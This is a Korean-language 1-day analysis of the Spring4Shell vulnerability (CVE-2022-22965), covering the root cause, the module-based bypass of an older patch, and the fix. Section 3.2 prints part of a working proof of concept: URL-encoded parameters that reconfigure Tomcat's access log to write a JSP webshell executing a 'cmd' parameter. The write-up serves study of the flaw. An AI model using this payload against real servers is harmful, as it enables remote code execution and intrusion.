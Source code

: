 ```yaml
---
title: "CVE-2022-22965 (Spring4Shell) 1-day 분석"
date: 2023-12-17 +0900
categories: [Study, 1-day Analysis]
tags: ['CVE-2022-22965', '1-day', 'springframework']
---
```

## 1. Abstract

- Request 파라미터에 `class` 를 이용하여 `classLoader` 접근할 수 있고, 이를 통해 Log 생성 설정을 변경시킬 수 있으며 이를 통해 WebShell 생성을 하고 RCE가 가능하다.

## 2. Vulnerability Analysis

### 2.1 Affect version

- JDK (Java Development Kit) 9 버전 이상
- Spring Framework : 5.3.17 및 5.2.19 이하 버전 (배포 방식 war)

### 2.2 Vulnerability Root Cause

HTTP Request를 보내면 Spring Framework 내부에서는 `bindRequestParameters()` 메소드를 호출한다. 

```java
if (bindingResult == null) {
	WebDataBinder binder = binderFactory.createBinder(webRequest, attribute, name);
	if (binder.getTarget() != null) {
	    if (!mavContainer.isBindingDisabled(name)) {
	        this.bindRequestParameters(binder, webRequest);
	    }
```

`bindRequestParameters()` 는 파라미터로 받은 객체의 속성을 가져오기 위해 내부에서 `getCachedIntrospectionResults()` 메소드를 호출한다.

아래는 `getCachedIntrospectionResults()` 메소드를 호출하기까지의 콜 스택이다.

![Untitled](/assets/img/posts/cve-2022-22964_1day/Untitled.png)

Spring4Shell 취약점은 이 `getCachedIntrospectionResults()` 메소드를 호출할 때 발생한다. 

```java
private CachedIntrospectionResults getCachedIntrospectionResults() {
    if (this.cachedIntrospectionResults == null) {
        this.cachedIntrospectionResults = CachedIntrospectionResults.forClass(this.getWrappedClass());
    }

    return this.cachedIntrospectionResults;
}
```

아래의 화면을 보면 `getCachedIntrospectionResults()` 메소드는 wrapping된 객체를 가져오는 데 이 때 `class` 객체도 같이 포함이 되어 있다. 따라서 HTTP Request를 보내는 것 만으로 `class` 객체에 접근할 수 있다.

![Untitled](/assets/img/posts/cve-2022-22964_1day/Untitled%201.png)

## 3. Exploit

### 3.1 Mitigation & Bypass

`class` 속성을 사용할 수 있지만 CVE-2010-1622 취약점 패치 때문에 바로 `classLoader` 를 호출할 수 없다. 따라서 JDK 9에서 추가된 module 기능을 이용해서 `class.module.classLoader` 와 같이 우회하여 `classLoader` 를 호출해주어야 한다.

#### CVE-2010-1622

- 해당 취약점은 classLoader를 호출하여 다른 클래스들을 연쇄적으로 호출함으로써 최종적으로 원격 코드 실행(RCE)까지 가능한 취약점이다.

해당 취약점을 방어하기 위해서 `PropertyDescriptor` 값에서 classLoader와 protectionDomain 문자열이 있는지 검증하는 로직이 추가되었다.

```java
// This call is slow so we do it once.
PropertyDescriptor[] pds = this.beanInfo.getPropertyDescriptors();
for (PropertyDescriptor pd : pds) {
	if (Class.class == beanClass &&
			("classLoader".equals(pd.getName()) ||  "protectionDomain".equals(pd.getName()))) {
		// Ignore Class.getClassLoader() and getProtectionDomain() methods - nobody needs to bind to those
		continue;
	}
```

2010년에 패치되었던 취약점이 Spring4Shell에서 다시 이용된 이유는 JDK 9가 배포가 되면서 `module` 기능을 같이 배포했기 때문이다.

기존 CVE-2010-1622 에서 익스플로잇하기 위해서 `class.classLoader` 호출한 것을 JDK 9에서는 `class.getModule()` 메소드를 이용하여 `class.module.classLoader` 를 호출함으로서 기존에 패치되었던 로직을 우회할 수 있다.

### 3.2 Exploit Method

#### WebShell Create

`class` 속성을 이용하여  `classLoader` 를 호출하고 Apache Tomcat의 Log 저장 설정을 변경하기 위해서 최종적으로 `getFirst()` 메소드를 호출하여 `AccessLogValve` 의 속성들을 변경시켜주어 webshell 파일을 생성한다.

webshell을 만들기 위해서 변경시켜줄 속성은 다음과 같다.

| Attribute | 설명 |
| --- | --- |
| fileDateFormat | 액세스 로그 파일 이름에서 사용자 지정 타임스탬프를 허용한다. 형식이 지정된 타임스탬프가 변경될 때 마다 파일이 로테이트 된다. |
| directory | 로그 파일이 생성될 directory의 절대 경로 또는 상대 경로가 저장되는 속성, 이 속성이 지정되지 않을 때 기본값은 $CATALINA_BASE의 상대경로로 지정된다. |
| pattern | 기록할 요청 및 응답, 또는 표준 형식을 선택하기 위해 다양한 정보 필드를 식별하는 포맷 레이아웃을 지정하는 속성이다. |
| prefix | 각 로그 파일 이름의 접두사를 지정하는 속성이다. 기본값은 “access_log” 이다. |
| suffix | 각 로그 파일의 이름 끝에 추가되는 접미사를 지정하는 속성이다. |

아래는 `AccessLogValve` 속성을 변경시키는 Spring4Shell POC 코드의 일부이다.

```python
log_pattern = "class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bprefix%7Di%20" \
              f"java.io.InputStream%20in%20%3D%20%25%7Bc%7Di.getRuntime().exec(request.getParameter" \
              f"(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B" \
              f"%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%25%7Bsuffix%7Di"

log_file_suffix = "class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp"
log_file_dir = f"class.module.classLoader.resources.context.parent.pipeline.first.directory={directory}"
log_file_prefix = f"class.module.classLoader.resources.context.parent.pipeline.first.prefix={filename}"
log_file_date_format = "class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat="
```

- `log_pattern` : `pattern` 속성을 사용해 webshell 내용을 입력한다.
- `log_file_suffix` : `suffix` 확장자를 `.jsp` 로 변경한다.
- `log_file_dir` : `directory` 속성을 사용해 log 파일이 저장될 위치를 지정한다.
- `log_file_prefix` : `prefix` 속성을 사용해 log 파일의 이름을 지정한다.
- `log_file_date_format` : `fileDateFormat` 을 사용해 파일 로테이트 시간을 해제한다.

속성 값들이 변경되는 것을 확인하고자 POC 코드를 실행하기 전의 `AccessLogValve` 속성 값들을 확인하였다.

![Untitled](/assets/img/posts/cve-2022-22964_1day/Untitled%202.png)

POC 코드를 실행시키고 나서 `fileDataFormat`, `directory`, `pattern`, `prefix`, `suffix` 값이 변경된 것을 확인할 수 있다.

![Untitled](/assets/img/posts/cve-2022-22964_1day/Untitled%203.png)

POC 코드를 실행시킨 후 webshell 파일이 정상적으로 생성되는 것을 확인이 되었고 webshell 또한 정상적으로 동작이 되었다.

![Untitled](/assets/img/posts/cve-2022-22964_1day/Untitled%204.png)

webshell을 통해 정상적으로 RCE가 동작 되는 것을 확인했다.

![Untitled](/assets/img/posts/cve-2022-22964_1day/Untitled%205.png)

## 4. Patch

Spring 측에서는 Spring core에서 `CachedIntrospectionResults` 메소드에서 `classLoader` 의 호출을 막기 위해 `classLoader` 비교 구문을 강화했다. 해당 로직을 강화함으로써 `classLoader` 를 이용한 메소드 호출을 방지하였다.

![Untitled](/assets/img/posts/cve-2022-22964_1day/Untitled%206.png)

## 5. Reference

> [Spring4Shell(CVE-2022-22965) 취약점 원인분석 및 대응방안](https://www.igloo.co.kr/security-information/spring4shellcve-2022-22965-취약점-원인분석-및-대응방안/)

> [SpringShell RCE vulnerability: Guidance for protecting against and detecting CVE-2022-22965 - Microsoft Security Blog](https://www.microsoft.com/en-us/security/blog/2022/04/04/springshell-rce-vulnerability-guidance-for-protecting-against-and-detecting-cve-2022-22965/)

> [Spring4Shell: Security Analysis of the latest Java RCE '0-day' vulnerabilities in Spring - LunaTrace](https://www.lunasec.io/docs/blog/spring-rce-vulnerabilities/)

> [https://docs.spring.io/spring-framework/docs/3.2.5.RELEASE_to_3.2.6.RELEASE/Spring Framework 3.2.6.RELEASE/org/springframework/beans/BeanWrapperImpl.html#getCachedIntrospectionResults()](https://docs.spring.io/spring-framework/docs/3.2.5.RELEASE_to_3.2.6.RELEASE/Spring%20Framework%203.2.6.RELEASE/org/springframework/beans/BeanWrapperImpl.html#getCachedIntrospectionResults())

> [StandardPipeline (Apache Tomcat 8.5.98 API Documentation)](https://tomcat.apache.org/tomcat-8.5-doc/api/org/apache/catalina/core/StandardPipeline.html#getFirst())

> [Apache Tomcat 9 Configuration Reference (9.0.85) - The Valve Component](https://tomcat.apache.org/tomcat-9.0-doc/config/valve.html#Access_Log_Valve/Attributes)

> [Comparing v5.3.17...v5.3.18 · spring-projects/spring-framework](https://github.com/spring-projects/spring-framework/compare/v5.3.17...v5.3.18#diff-de34d8ca8ee09e89bce68a491958bcc09197c49243aa2db6d981ecaa035b2447)

> [](https://github.com/tweedge/springcore-0day-en/blob/main/ANALYSIS_EN.md)

> [ServletContext (Java EE 6 )](https://docs.oracle.com/javaee/6/api///javax/servlet/ServletContext.html#getContext(java.lang.String))

> [https://tomcat.apache.org/tomcat-9.0-doc/config/context.html](https://tomcat.apache.org/tomcat-9.0-doc/config/context.html)